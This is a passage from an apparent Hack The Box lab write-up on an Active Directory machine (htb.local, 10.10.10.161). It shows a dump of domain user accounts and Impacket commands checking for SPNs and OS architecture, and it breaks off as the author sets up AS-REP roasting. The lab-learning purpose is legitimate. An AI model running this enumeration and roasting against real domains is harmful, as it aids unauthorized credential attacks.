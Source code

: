 ```c
HealthMailbox968e74d  HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local  2019-09-19 07:56:56.143969  <never>             
HealthMailbox6ded678  HealthMailbox6ded67848a234577a1756e072081d01f@htb.local  2019-09-19 07:57:06.597012  <never>             
HealthMailbox83d6781  HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local  2019-09-19 07:57:17.065809  <never>             
HealthMailboxfd87238  HealthMailboxfd87238e536e49e08738480d300e3772@htb.local  2019-09-19 07:57:27.487679  <never>             
HealthMailboxb01ac64  HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local  2019-09-19 07:57:37.878559  <never>             
HealthMailbox7108a4e  HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local  2019-09-19 07:57:48.253341  <never>             
HealthMailbox0659cc1  HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local  2019-09-19 07:57:58.643994  <never>             
sebastien                                             2019-09-19 20:29:59.544725  2019-09-22 18:29:29.586227 
lucinda                                               2019-09-19 20:44:13.233891  <never>             
svc-alfresco                                          2022-03-27 03:22:03.296517  2019-09-23 07:09:47.931194 
andy                                                  2019-09-22 18:44:16.291082  <never>             
mark                                                  2019-09-20 18:57:30.243568  <never>             
santi                                                 2019-09-20 19:02:55.134828  <never> 
```

And from further enumeration, there are no ```SPNs``` and it is running ```x64 bit``` architecture

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-GetUserSPNs  htb.local/ -dc-ip 10.10.10.161 -no-pass 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

No entries found!
                                                                                                                                                             
┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-getArch -target 10.10.10.161                                      
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Gathering OS architecture for 1 machines
[*] Socket connect timeout set to 2 secs
10.10.10.161 is 64-bit
```

## Initial Access

Lets try to search for a specific user which has ```DONT_REQUIRE_PREAUTH``` so that we can perform ```ASREP-Roasting```

Searching for users with ```DONT_REQUIRE_PREAUTH``` UAC flag
